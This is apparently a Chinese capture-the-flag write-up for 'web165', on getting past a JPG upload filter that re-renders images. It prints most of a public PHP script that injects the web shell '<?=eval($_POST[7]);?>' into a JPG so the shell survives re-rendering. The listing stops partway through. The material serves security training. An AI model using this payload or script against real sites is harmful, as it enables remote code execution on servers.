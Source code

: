 

#### web165

尝试使用上题的方法

![image-20250317235142826](assets/image-20250317235142826.png)

右键上传按钮检查发现要求上传jpg文件，在群里拿到适合这道题二次渲染的 jpg 图片：

![](../../CTF/图片/jpg二次渲染专用.jpg)

B站wp的解法是先将原图片上传再将上传的经过渲染的图片另存为再用脚本插入木马

用大佬的php脚本处理：

```
  1<?php
  2    /*
  3
  4    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
  5    It is necessary that the size and quality of the initial image are the same as those of the processed image.
  6
  7    1) Upload an arbitrary image via secured files upload script
  8    2) Save the processed image and launch:
  9    jpg_payload.php <jpg_name.jpg>
 10
 11    In case of successful injection you will get a specially crafted image, which should be uploaded again.
 12
 13    Since the most straightforward injection method is used, the following problems can occur:
 14    1) After the second processing the injected data may become partially corrupted.
 15    2) The jpg_payload.php script outputs "Something's wrong".
 16    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
 17
 18    Sergey Bobrov @Black2Fan.
 19
 20    See also:
 21    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
 22
 23    */
 24		
 25    $miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义
 26
 27
 28    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
 29        die('php-gd is not installed');
 30    }
 31
 32    if(!isset($argv[1])) {
 33        die('php jpg_payload.php <jpg_name.jpg>');
 34    }
 35
 36    set_error_handler("custom_error_handler");
 37
 38    for($pad = 0; $pad < 1024; $pad++) {
 39        $nullbytePayloadSize = $pad;
 40        $dis = new DataInputStream($argv[1]);
```